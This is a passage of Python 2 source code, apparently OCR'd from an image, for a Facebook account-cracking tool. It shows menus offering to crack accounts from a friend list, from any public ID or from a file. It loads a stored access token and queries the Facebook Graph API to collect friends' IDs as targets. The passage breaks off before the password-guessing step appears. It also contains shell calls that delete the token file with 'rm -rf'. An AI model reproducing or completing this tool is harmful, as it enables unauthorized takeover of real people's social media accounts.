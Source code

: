 	print ("[2] Crack Manual Password")
	print ("[0] Exit            ")
	print (40*"-")
	action()


def action():
	chb = raw_input("\n>>>")
	if chb =="":
		print ("[!] Fill in correctly")
		action()
	elif chb =="1":
	    crack_menu()
	elif chb =="2":
		choice_menu()
	elif chb =="8":
	    menu()
	elif chb =="0":
	    os.system("rm -rf ....")
	    print
	    psb("Logout successfully")
	elif chb =="0":
		exb()
	else:
		print ("[!] Fill in correctly")
		action()

###### CRACK OTOMATIS ######

def crack_menu():
	global toket
	os.system("clear")
	try:
		toket=open("....","r").read()
	except IOError:
		print("[!] Token invalid")
		os.system("rm -rf ....")
		time.sleep(1)
		os.system("python2 LUAR.py")
	print (logo)
	print (40*"-")
	print ("[1] Crack From Friend List")
	print ("[2] Crack From Any Public ID")
	print ("[3] Crack From File")
	print ("[0] Back")
	print (40*"-")
	crack_action()

def crack_action():
	bch = raw_input("\n>>>")
	if bch =="":
		print ("[!] Fill in correctly")
		crack_action()
	elif bch =="1":
		os.system("clear")
		print (logo)
		print (40*"-")
		r = session.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z["data"]:
			id.append(s["id"])
	elif bch =="2":
		os.system("clear")
		print (logo)
		print (40*"-")
		idt = raw_input("[✓] Enter ID : ")
